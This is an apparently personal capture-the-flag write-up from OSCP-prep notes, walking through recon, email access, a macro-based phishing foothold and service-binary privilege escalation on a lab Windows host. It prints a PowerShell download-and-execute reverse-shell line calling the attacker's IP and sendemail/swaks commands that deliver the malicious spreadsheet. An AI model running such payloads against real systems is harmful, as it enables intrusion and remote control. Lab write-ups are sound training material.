

**Start 16:13 26-02-2025**

---
```
Scope:
192.168.192.140
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -vvvv -p- hepet -sT -T5 --min-rate=5000

PORT      STATE SERVICE        REASON  VERSION
25/tcp    open  smtp           syn-ack Mercury/32 smtpd (Mail server account Maiser)
| smtp-commands: localhost Hello hepet; ESMTPs are:, TIME, SIZE 0, HELP
|_ Recognized SMTP commands are: HELO EHLO MAIL RCPT DATA RSET AUTH NOOP QUIT HELP VRFY SOML Mail server account is 'Maiser'.
79/tcp    open  finger         syn-ack Mercury/32 fingerd
| finger: Login: Admin         Name: Mail System Administrator\x0D
| \x0D
|_[No profile information]\x0D
105/tcp   open  ph-addressbook syn-ack Mercury/32 PH addressbook server
106/tcp   open  pop3pw         syn-ack Mercury/32 poppass service
110/tcp   open  pop3           syn-ack Mercury/32 pop3d
|_pop3-capabilities: EXPIRE(NEVER) APOP UIDL TOP USER
135/tcp   open  msrpc          syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn    syn-ack Microsoft Windows netbios-ssn
143/tcp   open  imap           syn-ack Mercury/32 imapd 4.62
|_imap-capabilities: CAPABILITY X-MERCURY-1A0001 OK complete AUTH=PLAIN IMAP4rev1
443/tcp   open  ssl/http       syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1g PHP/7.3.23)
|_ssl-date: TLS randomness does not represent time
|_http-title: Time Travel Company Page
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?  syn-ack
2224/tcp  open  http           syn-ack Mercury/32 httpd
|_http-title: Mercury HTTP Services
| http-methods: 
|_  Supported Methods: GET HEAD
5040/tcp  open  unknown        syn-ack
7680/tcp  open  pando-pub?     syn-ack
8000/tcp  open  http           syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-title: Time Travel Company Page
11100/tcp open  vnc            syn-ack VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    Unknown security type (40)
20001/tcp open  ftp            syn-ack FileZilla ftpd 0.9.41 beta
|_ftp-bounce: bounce working!
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp            312 Oct 20  2020 .babelrc
| -r--r--r-- 1 ftp ftp            147 Oct 20  2020 .editorconfig
| -r--r--r-- 1 ftp ftp             23 Oct 20  2020 .eslintignore
| -r--r--r-- 1 ftp ftp            779 Oct 20  2020 .eslintrc.js
| -r--r--r-- 1 ftp ftp            167 Oct 20  2020 .gitignore
| -r--r--r-- 1 ftp ftp            228 Oct 20  2020 .postcssrc.js
| -r--r--r-- 1 ftp ftp            346 Oct 20  2020 .tern-project
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 build
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 config
| -r--r--r-- 1 ftp ftp           1376 Oct 20  2020 index.html
| -r--r--r-- 1 ftp ftp         425010 Oct 20  2020 package-lock.json
| -r--r--r-- 1 ftp ftp           2454 Oct 20  2020 package.json
| -r--r--r-- 1 ftp ftp           1100 Oct 20  2020 README.md
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 src
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 static
|_-r--r--r-- 1 ftp ftp            127 Oct 20  2020 _redirects
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
33006/tcp open  mysql          syn-ack MariaDB 10.3.24 or later (unauthorized)
49664/tcp open  msrpc          syn-ack Microsoft Windows RPC
49665/tcp open  msrpc          syn-ack Microsoft Windows RPC
49666/tcp open  msrpc          syn-ack Microsoft Windows RPC
49667/tcp open  msrpc          syn-ack Microsoft Windows RPC
49668/tcp open  msrpc          syn-ack Microsoft Windows RPC
49669/tcp open  msrpc          syn-ack Microsoft Windows RPC
Service Info: Hosts: localhost, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Metric sh*t ton of ports, let's start at the top.

### 25/TCP - SMTP


This gave me list of existing SMTP usernames.


### 79/TCP - Finger


This is the same info `nmap` gave us. Other than that I've never heard of this service before, even after checking [hacktricks](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-finger.html) I didn't find anything useful.


### 443/TCP - HTTPS


We get some names from the website, we could try and brute force later with them (some of these have also been found on [[#25/TCP - SMTP]]).

```
ela
charlotte
magnus
agnes
jonas
martha
```


Furthermore we also notice that *jonas* has `SicMundusCreatusEst` as his title on the website, could be a password?

:::note
Is that a **Dark** reference?!?!?! 
:::

```
SicMundusCreatusEst
```


### Feroxbuster

This didn't really yield anything valuable


## 2224/TCP - HTTP


I went ahead and started looking for exploits regarding this version running:


This doesn't seem the way to go, let's hold this for now.


### 105/106/110/TCP - POP3

I try to log in using the possibly found creds.


Awesome! Let's check it out.

Email 1:


Email 2:


Email 3:


Email 4:



They're absolutely right, this is terrible practice.

So what can we make of this? Well if we check back at **Email 3** we see this part:


:::important
Since they're using **LibreOffice** that means that the mail server processes `.odt` * `.ods` files.
If we look at the [[#Nmap]] results we can clearly see that there is **no entry point**, meaning this is HIGHLY LIKELY a *phishing* scenario.
:::

## Phishing for Access

### Setting up Macro

For our *phishing* attack to work, we will create a document with **LibreOffice** with a **Macro** inside, which will fire a reverse shell payload upon opening. We will have to submit this file using `swaks` since we don't have any other ability to upload this file.

:::note
Since the mail specifically mentioned **spreadsheets** I will be doing this within **LibreOffice Calc** which creates a `.ods` file.
:::

I open up **LibreOffice Calc** and save the file.


I then head to **Tools -> Macros -> Edit Macros**:


Here I will insert the following:

```powershell
cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.220/powercat.ps1');powercat -c 192.168.45.220 -p 443 -e powershell
```


Make sure that it's save under the same file:


Once done we save the Macro and close it.

We will now head to **Tools -> Customize**:


Here we will select the following:


Once this is done, we save the document and prep our *phishing* attack.


## Sending email

We set up our `body.txt`:


We set up our `swaks` command and send the mail.

```bash
sudo swaks -t agnes@localhost.com -t martha@localhost.com -t mailadmin@localhost.com  --from jonas@localhost.com --attach @sheet.ods --server 192.168.192.140 --body @body.txt --header "Subject: Spreadsheet" --suppress-data
```


However `swaks` didn't work, so instead I used the `sendemail` tool which *did* give me a reverse shell:

```bash
sendemail -f 'jonas@localhost.com' -t 'mailadmin@localhost.com' 'martha@localhost.com' 'agnes@localhost.com' -s 192.168.192.140:25 -u 'Spreadsheet' -m 'Check my spreadsheet please' -a sheet.ods
```


## Foothold

After a short wait I got the response:


Hell yeah! Our phishing attempt worked, and we got a working reverse shell, let's start enumerating the target.


### local.txt


## Enumeration

I start enumerating with `whoami /priv`:


Unfortunately there's nothing useful.

I then went ahead and checked out the `C:\` directory:


A `.dll`? Could this potentially be a **DLL Hijacking**?


This is good, all users have the (M) privilege, meaning I can HIGHLY LIKELY modify it to suit my needs.

I then try to find the process running this `.dll` file, however it returns blank, which could LIKELY mean that the process is run under *Administrator* rights:

```powershell
Get-Process | Where-Object { $_.Modules -match "ImapX.dll" }
```


## Privilege Escalation
### DLL Hijacking - FAIL

I will now attempt to hijack the `.dll` by creating a reverse shell payload using `msfvenom`, then copying it over under the same name.


Unfortunately this too was a failed attempt.


Let's go ahead and enumerate further.


We find a directory called `Veyon` inside our home directory.


So could this be a **Service Binary Hijacking** instead then?

Let's look up the service.


### Service Binary Hijacking

```powershell
sc.exe qc VeyonService
```


Nice it's running under *SYSTEM* privileges, let's change it with a rev shell.


Apparently we can't stop nor restart the service, we still have the `shutdown /r` trick up our sleeve, since the service is set to `AUTO_START` that means that it will start on start up. Let's shutdown the system.


After a short while...


### proof.txt


:::summary
Challenging but fun, found out the hard way that apparently `swaks` is not always the best tool for *phishing*.
:::

---

**Finished 18:28 26-02-2025**

[^Links]:  [[OSCP Prep]]
